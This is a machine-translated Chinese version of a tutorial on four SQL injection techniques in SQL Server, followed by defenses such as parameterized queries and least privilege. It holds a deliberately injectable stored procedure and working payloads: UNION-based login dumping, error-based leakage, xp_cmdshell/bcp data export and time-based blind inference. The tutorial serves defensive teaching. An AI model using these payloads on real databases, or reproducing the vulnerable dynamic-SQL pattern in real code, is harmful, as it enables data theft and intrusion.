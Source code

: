 # 窃取数据的 4 种 SQL 注入技术

> 原文:[https://dev . to/Bert Wagner/4-SQL-injection-techniques-for-stealing-data-1fo 0](https://dev.to/bertwagner/4-sql-injection-techniques-for-stealing-data-1fo0)

[https://www.youtube.com/embed/UMJV3OpjsoM](https://www.youtube.com/embed/UMJV3OpjsoM)

<figcaption>[Watch this week’s episode on YouTube](https://youtu.be/UMJV3OpjsoM)</figcaption>

我并不主张你开始利用 SQL 注入窃取别人的数据。

但是，我确实认为您应该熟悉各种 SQL 注入技术，以便您可以更好地准备防止它们在您自己的查询中发生。

本文的其余部分将介绍四种用于从 SQLServer 中提取信息的常用技术，以及防止这些技术出现的简单解决方案。

我们将直接在 SQL Server 中查看所有这些技术，但请注意，所有这些信息也可能从应用程序前端获得。

## [](#union-based-attacks)联盟攻击

对于黑客来说，从易受注入攻击的查询中检索额外数据的最简单方法可能是通过基于联合的攻击。

基于 UNION 的注入攻击将 UNION 或 UNION ALL 语句添加到原始存储过程查询中，有效地返回第二个查询请求的任何数据。

假设我们有一个存储过程，它返回传入的@Username 值的用户信息:

```
-- Create our sample table data
CREATE TABLE dbo.Users
(
    Id int IDENTITY(1,1),
    Username NVARCHAR(100),
    FirstName NVARCHAR(100),
    LastName NVARCHAR(100)
);
GO
INSERT INTO dbo.Users VALUES ('BDubs','Bert','Wagner');
INSERT INTO dbo.Users VALUES ('JaneDough', 'Jane', 'Doe');

SELECT * FROM dbo.Users;

-- Create our procedure to retrieve name information
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    DECLARE @Query NVARCHAR(MAX) = N'
        SELECT
            UserName,
            FirstName,
            LastName
        FROM
            dbo.Users
        WHERE
            Username = ''' + @UserName + N'''';
    EXEC(@Query);
END 
```

这个查询写得很差，很容易注入:

```
-- No injection
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'

-- Injection, returns all rows
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' OR 1=1--'; 
```

让我们假设我们是一个邪恶的黑客，想要确定服务器上有哪些 SQL Server 登录可供我们使用。我们可以使用基于联合的注入攻击来查询 sys.syslogins，以获取这些信息并将其作为原始查询的一部分返回:

```
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' UNION ALL SELECT loginname,null,null FROM master.sys.syslogins;--'; 
```

[![](../Images/cbf7cfc1019d925968f77570fc28ed95.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--fwE8p6Q2--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image.png)

这种基于联合的攻击只是将另一个查询的结果连接到我们的原始数据行。

## [](#error-based-attacks)基于错误的攻击

假设基于联合的技术不起作用，或者我们需要一种替代方法来确定当前登录的帐户。

另一种选择是让应用程序通过错误输出来揭示关于数据库的信息。

我们可以传入一个已知会产生错误的查询，在这种情况下，将字符串转换为 INT:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; SELECT CAST(SYSTEM_USER AS INT);--'; 
```

[![](../Images/3afec6e8e6a1886a9ff631d5495dea8b.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--HgxhmW70--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-1.png)

瞧啊。如果应用程序没有正确处理错误消息，它会方便地将系统登录显示为错误消息的一部分。

## [](#out-of-band-delivery)带外交付

我们研究的前两种技术是**入站**攻击:也就是说，我们使用可注入查询直接向我们返回数据。

但是，如果有足够的安全性来防止意外数据直接返回到我们的应用程序中，该怎么办呢？我们必须通过其他方式从服务器上获取我们想要的数据。

这个例子使用 xp_cmdshell 将我们的数据写到一个文本文件中，但是我们也可以很容易地用它给自己发送一封电子邮件等等…

```
EXEC dbo.USP_GetUserFullName @Username = N'''; EXEC xp_cmdshell ''bcp "SELECT * FROM master.sys.syslogins" queryout "%TEMP%\pwned.txt" -c -T -q --'; 
```

[![](../Images/6904b39d20257494b0effc3333d0eeca.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--JefFwVAC--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-2.png)

## [](#blind-injection)**盲目注射**

一个安全的服务器可能不允许我们直接输出我们想要的数据，但这并不意味着我们不能推断出某些信息。

通常，我们为自己能够编写一致的快速查询感到自豪。但是我们致力于持续快速的执行，这为黑客提供了识别信息的方法，而不需要任何明确的数据输出。

例如，假设我们想猜测当前登录的帐户是否是“sa”。我们可以编写逻辑来检查这一点，并故意减慢可注入查询的执行速度，以确定我们的猜测是否正确:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; if (SELECT SYSTEM_USER) = ''sa'' waitfor delay ''00:00:05'';--'; 
```

如果我们带有预期参数的查询通常以毫秒为单位返回，强制 5 秒钟的延迟将间接告知我们猜测的“sa”帐户名是正确的。

## [](#protecting-yourself)保护自己

防止 SQL 注入的最简单的方法是在不必要的时候避免使用动态 SQL。在上面的存储过程示例中，我们没有理由使用动态 SQL——这应该是一个参数化的查询，完全不会受到注入攻击:

```
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    SELECT
        UserName,
        FirstName,
        LastName
    FROM
        dbo.Users
    WHERE
        Username =  @UserName;
END 
```

如果您必须使用动态 SQL，那么[使用 sp_executesql](https://bertwagner.com/2017/08/29/warning-are-your-queries-vulnerable-to-sql-injection/) 执行您以编程方式构建的查询字符串。该过程将安全地参数化您的输入，并防止发生注入。

最后，确保执行查询的帐户拥有尽可能少的权限。这样，即使您的查询有注入漏洞，攻击者造成的损害也是最小的。如果我们的帐户不能访问某些系统表或系统过程(如 xp_cmdshell ),上面的许多例子都会失败。

这些解决方案不会涵盖所有情况，但它们将涵盖大多数情况，并提高我们保护信息安全的机会。

*感谢阅读。你可能也会喜欢在 Twitter 上关注我。T3】*